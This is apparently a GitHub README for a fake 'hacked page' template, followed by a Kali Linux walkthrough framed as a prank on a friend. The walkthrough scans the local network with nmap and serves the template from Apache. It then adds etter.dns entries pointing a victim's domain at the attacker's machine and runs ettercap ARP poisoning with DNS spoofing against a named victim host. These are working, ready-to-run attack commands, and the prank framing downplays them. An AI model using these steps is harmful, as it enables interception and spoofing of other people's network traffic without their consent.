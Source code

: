 ## Hacked page template.


[How it looks](https://tarokinoe.github.io/hacked_page/)

### Kali usage example:
Let's say you want to make a joke with your friend and "hack" his web-site.  
We wil use [Kali linux](https://www.kali.org/).

Look your ip
```
ifconfig
```
let your ip is 192.168.0.30

Scan network:
```
nmap -sn 192.168.0.0/24
```
let:
- 192.168.0.1 - gateway  
- 192.168.0.20 - victim  
- 192.168.0.30 - your ip  
- example.com - victim's site domain name

```
cd /var/www/html/
rm index.html
git clone https://github.com/tarokinoe/hacked_page.git .
service apache2 start
```
/etc/ettercap/etter.dns
```
...
example.com A 192.168.0.30
*.example.com A 192.168.0.30
www.example.com PTR 192.168.0.30
...
```
```
ettercap -T -q -i wlan0 -M arp:remote -P dns_spoof /192.168.0.1// /192.168.0.20//
```
